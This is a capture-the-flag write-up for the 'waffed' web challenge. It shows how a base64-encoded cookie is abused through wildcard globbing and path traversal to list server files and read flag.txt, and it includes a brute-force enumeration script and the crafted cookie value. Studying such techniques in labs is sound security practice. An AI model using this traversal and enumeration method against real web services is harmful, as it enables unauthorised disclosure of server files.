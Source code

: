 # waffed

This was part of the 0x41414141 CTF in January 2021.

![challenge](media/challenge.png)

http://45.134.3.200:9090/

The page comes up like this:
![page1](media/page1.png)

Clicking the `Get in Touch` link brings you to this page:

![get-in-touch](media/get-in-touch.png)

I tried SQL injection in all of these but got nothing interesting.

On the trade page:

http://45.134.3.200:9090/trade

![trade1](media/trade1.png)

You can see a visual graph of some data and have a selector to switch to a different coin.

When you do this, behind the scenes it makes an HTTP call to `/changeFeed/<selected-coin>`:

```
GET /changeFeed/XFT HTTP/1.1
Host: 45.134.3.200:9090
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://45.134.3.200:9090/trade
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: price_feed=REFJ
Connection: close
```

and returns:

```
HTTP/1.1 302 FOUND
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 25 Jan 2021 00:42:02 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 219
Location: http://45.134.3.200:9090/trade
Connection: close
Set-Cookie: price_feed=WEZU; Path=/
```

302 is a redirect and the Location response header tells the browser where to redirect to.

Notice the `Set-Cookie` header!

On a hunch, I decoded WEZU from base64 and out came: `XFT`

So the `price_feed` cookie value is just a base64 encoded version of the selected coin name.

* XFT's cookie is WEZU
* DAI's cookie is REFJ
* UNI's cookie is VU5J
* POPCOINS' cookie is UE9QQ09JTlM=


For fun, let's try:

`/changeFeed/STUFF`

That gave a 302 redirect to /trade with a cookie of:

```
Set-Cookie: price_feed=U1RVRkY=; Path=/
```

As expected this is just base64 for STUFF.

Then the /trade page rendered as:

```
<h1>WOOPS</h1>
```

That is likely due there not being any STUFF resource on the server.

I tried various forms of SQL injection here with no results.

I also tried just messing with various values to see how it would behave. I found an interesting behavior:

* \*D\* worked
* \*z\* WOOPS
* \*T worked
* \*S worked
* \*s WOOPS
* XF%3F (XF?) worked

This implies it is honoring bash-style wildcards like * and ?.

This makes me think the resources are on the file system and not, for example, in a database.

Knowing that "something" on the server was honoring bash, I wrote the following python:

```
import requests
import base64
from urllib.parse import quote_plus

BASE_URL = 'http://45.134.3.200:9090/trade'

def tryUrl(message):
    url = BASE_URL
    message_bytes = message.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')
    cookieValue = base64_message
    response = requests.get(url,
                            headers={
                                'Cookie': 'price_feed = ' + cookieValue
                            },
                            allow_redirects=False
                            )
    return response.status_code == 200 and ('WOOPS' not in response.text)

def findToken(partial):
    anyMatches = False
    for i in range(33,126):
        c = chr(i)
        if c == '*' or c == '?' or c == '/':
            continue
        if tryUrl(partial + c + '*'):
            print('partial: ', partial + c)
            anyMatches = True
            findToken(partial + c)

    if not anyMatches:
        print(partial)

findToken('')
```

This leverages the fact that * will match on all trailing characters to "hunt" for matches.

However, this only dumped out the ones we already knew about.

On a whim, I changed to:

```
findToken('../')
```
and it dumped out:
```
../Dockerfile
../description.txt
../requirements.txt
../run.sh
../wsgi.py
```

Cool!

I then tried more and more ../'s until it dumped out:

```
../../../../.dockerenv
../../../../flag.txt
```

So, we know where the flag is (relative to our current directory anyway).

Now that we know, let's manually edit the `price_feed` cookie in the browser to be the base64 for
`../../../../flag.txt`

This is: `Li4vLi4vLi4vLi4vZmxhZy50eHQ=`

Here is a screenshot of me manually editing the cookie inside the Chrome dev tools.

![devtools](media/devtools.png)

Let's back up a minute.  Before we started hacking the cookie value, it was showing some data in a visual graph.  You can view source to see the JSON that drives this visualization:

```
datasets: [{

label: 'prices overtime',

data: [33, 50, 41, 49, 35, 41, 45, 36, 30, 44, 34, 47, 49, 40, 31, 32, 44, 31, 38, 37, 37, 40, 34, 41, 40, 40, 45, 36, 42, 38, 50, 50, 50, 32, 48, 30, 42, 38, 30, 41, 35, 35, 36, 49, 44, 43, 30, 34, 35, 50, 43, 39, 39, 46, 35, 36, 49, 32, 31, 42, 43, 33, 48, 46, 30, 35, 34, 45, 33, 31, 37, 43, 33, 37, 36, 48, 31, 33, 34, 35, 37, 30, 30, 46, 35, 33, 48, 41, 34, 32, 32, 48, 32, 34, 34, 38, 43, 45, 39, 38],
borderColor: [
'rgba(255, 99, 132, 1)',
'rgba(54, 162, 235, 1)',
'rgba(255, 206, 86, 1)',
'rgba(75, 192, 192, 1)',
'rgba(153, 102, 255, 1)',
'rgba(255, 159, 64, 1)'
],
borderWidth: 
}]
```

Now that we've hacked the cookie, let's refresh the page and see what the same JSON looks like now:

```
datasets: [{
label: 'prices overtime',
data: [&#39;flag{w@fs_r3@lly_d0_Suck8245}&#39;],
borderColor: [
'rgba(255, 99, 132, 1)',
'rgba(54, 162, 235, 1)',
'rgba(255, 206, 86, 1)',
'rgba(75, 192, 192, 1)',
'rgba(153, 102, 255, 1)',
'rgba(255, 159, 64, 1)'
],
borderWidth: 1
}]
```

Yay! The contents of `flag.txt` end up in the JSON.